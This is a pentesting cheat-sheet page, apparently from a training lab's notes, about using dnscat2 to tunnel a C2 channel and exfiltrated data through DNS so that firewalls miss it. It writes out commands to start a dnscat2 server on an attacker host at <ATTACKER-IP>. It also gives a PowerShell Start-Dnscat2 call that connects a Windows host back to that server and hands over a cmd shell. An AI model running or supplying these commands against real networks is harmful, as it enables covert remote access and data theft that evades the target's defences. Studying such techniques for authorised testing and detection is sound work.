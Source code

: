 ```yaml
---
tags:
  - firewall-evasion
  - dns
---
```

[Dnscat2](https://github.com/iagox86/dnscat2) is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted `Command-&-Control` (`C&C` or `C2`) channel and sends data inside TXT records within the DNS protocol.

Usually, every AD domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with `dnscat2`, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic.
# Example Usage
1. Start DNScat2 server on attack host:
```shell-session
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server/
$ gem install bundler
$ bundle install

$ sudo ruby dnscat2.rb --dns host=<ATTACKER-IP>,port=53,domain=inlanefreight.local --no-cache
... SNIP ...
... POST CONNECTION in (3) ...

New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```
This will provide us a `--secret=<KEY>` , which we will have to provide to our `dnscat2` client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.
2. [[File Transfer|Transfer]] `dnscat2` project or [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell) based client to Windows:
```powershell
PS > Import-Module .\dnscat2.ps1
```
3. Establish a tunnel to our server, and send back a CMD shell:
```powershell
PS > Start-Dnscat2 -DNSserver <ATTACKER-IP> -Domain inlanefreight.local -PreSharedSecret <KEY> -Exec cmd
```
# Useful Commands
- `?`
- `<COMMAND> -h`